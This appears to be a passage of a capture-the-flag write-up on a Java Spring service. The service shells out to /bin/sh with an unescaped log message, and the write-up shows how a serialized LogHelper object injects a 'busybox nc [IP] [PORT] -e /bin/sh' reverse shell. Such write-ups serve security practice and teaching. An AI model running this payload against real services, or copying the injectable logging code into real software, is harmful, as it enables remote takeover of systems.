 ``` java
```

which inherits from this logservice class and implements serializable
``` java
    package com.example.ctfapi.service;

import org.springframework.stereotype.Service;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.List;
import java.nio.file.Path;

@Service
public class LogService {

    public void log(String message) {
        try {
            String cmd = String.format("echo \"%s\" >> logs/logs.txt", message);
            Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    
    public List<String> getLogs() {
        Path logsPath = Paths.get("logs", "logs.txt"); 

        try {
            List<String> logs = Files.readAllLines(logsPath);
            return logs;
        } catch (IOException e) {
            throw new RuntimeException("Failed to read logs from: " + logsPath, e);
        }
    }

}
```



to get rce here we need to create a serialized loghelper object with a message that will do a string escape and be executed in the log function.
the easiest thing to do here is to add this to the posts controller:
``` java
@GetMapping("/generate")
    public String generate() {
        LogHelper exploit = new LogHelper("pwned\" && busybox nc [IP] [PORT] -e /bin/sh && echo \"pwned");
        try{
        String string = serializationService.serialize(exploit);
        return string;
        }catch (Exception e){
            return "error";
        }

    }

```
and visit /api/posts/generate to get the serialized object.
honorable mention to the unintended exploit because i forgot to remove the logging i added for debugging when making the challenge.
